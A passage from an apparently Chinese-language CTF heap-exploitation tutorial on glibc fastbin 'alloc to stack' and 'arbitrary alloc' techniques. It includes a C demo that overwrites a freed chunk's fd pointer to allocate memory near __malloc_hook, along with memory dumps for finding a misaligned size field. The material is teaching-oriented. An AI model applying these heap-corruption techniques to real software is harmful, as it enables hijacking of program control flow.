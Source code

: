 ```
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw-
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

```


### 小总结
通过该技术我们可以把 fastbin chunk 分配到栈中，从而控制返回地址等关键数据。要实现这一点我们需要劫持fastbin 中 chunk 的 fd 域，把它指到栈上，当然同时需要栈上存在有满足条件的size值。

## Arbitrary Alloc

### 介绍

Arbitrary Alloc 其实与 Alloc to stack 是完全相同的，唯一的区别是分配的目标不再是栈中。
事实上只要满足目标地址存在合法的 size 域（这个 size 域是构造的，还是自然存在的都无妨），我们可以把 chunk 分配到任意的可写内存中，比如bss、heap、data、stack等等。

### 演示
在这个例子，我们使用字节错位来实现直接分配 fastbin 到**\_malloc_hook的位置，相当于覆盖_malloc_hook来控制程序流程。**
```
int main(void)
{


    void *chunk1;
    void *chunk_a;

    chunk1=malloc(0x60);

    free(chunk1);

    *(long long *)chunk1=0x7ffff7dd1af5-0x8;
    malloc(0x60);
    chunk_a=malloc(0x60);
    return 0;
}
```
这里的0x7ffff7dd1af5是我根据本机的情况得出的值，这个值是怎么获得的呢？首先我们要观察欲写入地址附近是否存在可以字节错位的情况。
```
0x7ffff7dd1a88 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a90 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1a98 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1aa8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ab8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ac8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ad8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae0 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1ae8 0x0	0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1af0 0x60 0x2	0xdd 0xf7 0xff 0x7f	0x0	0x0
0x7ffff7dd1af8 0x0  0x0	0x0	0x0	0x0	0x0	0x0	0x0
0x7ffff7dd1b00 0x20	0x2e 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b08 0x0	0x2a 0xa9 0xf7 0xff	0x7f 0x0 0x0
0x7ffff7dd1b10 <__malloc_hook>:	0x30	0x28	0xa9	0xf7	0xff	0x7f	0x0	0x0
```